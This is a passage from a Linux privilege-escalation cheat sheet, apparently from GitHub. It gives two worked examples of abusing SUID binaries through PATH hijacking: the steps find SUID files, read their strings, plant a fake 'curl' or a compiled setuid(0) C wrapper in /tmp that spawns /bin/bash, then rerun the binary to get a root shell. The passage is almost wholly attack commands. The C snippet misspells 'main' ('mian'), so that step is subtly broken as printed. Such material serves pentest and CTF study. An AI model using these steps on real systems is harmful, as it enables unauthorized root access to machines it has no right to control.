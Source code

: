 Privilege Escalation

```
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/network-tester
ls -la /bin/tools/network-tester

Test the SUID Binary 

/bin/tools/network-tester
strings /bin/tools/network-tester
Output Example: curl -I 127.0.0.1 

Absue the SUID Binary

echo "/bin/bash" > /tmp/curl
chmod 777 /tmp/curl
echo $PATH
export PATH=/tmp:$PATH
/bin/tools/network-tester
id && whoami
```

Example 3 (Without full bin path)

Privilege Escalation

```
Find the SUID Binary

find / -perm -u=s -type f 2>/dev/null | xargs ls -l
Output Example: /bin/tools/webserver-status
ls -la /bin/tools/webserver-status

Test the SUID Binary 

/bin/tools/webserver-status
strings /bin/tools/webserver-status
Output Example: service apache2 status

Absue the SUID Binary

echo 'int mian() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
chmod 777 /tmp/service
export PATH=/tmp:$PATH
echo $PATH
/bin/tools/webserver-status
id && whoami
```

Example 4 (With full bin path)
